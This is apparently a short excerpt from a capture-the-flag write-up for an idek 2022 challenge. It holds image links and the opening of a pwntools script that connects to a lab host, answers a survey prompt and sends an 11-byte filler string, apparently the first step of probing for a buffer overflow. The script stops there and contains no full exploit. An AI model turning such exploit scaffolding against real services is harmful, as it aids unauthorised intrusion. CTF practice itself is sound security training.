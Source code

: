 ![](/images/idek2022/2.png)

![](/images/idek2022/3.png)

```python
from pwn import *
p=remote("192.168.230.134",10001)
context.log_level='debug'
r=lambda x: p.recv(x)
ra=lambda: p.recvall()
rl=lambda: p.recvline(keepends=True)
ru=lambda  x: p.recvuntil(x,drop=True)
sl=lambda x:p.sendline(x)
sa=lambda x,y:p.sendafter(x,y)
sla=lambda x,y:p.sendlineafter(x,y)
ia=lambda :p.interactive()
li=lambda x:log.info(x)

sla('Do you want to complete a survey?','y')
sa('Do you like ctf?','a'*11)
```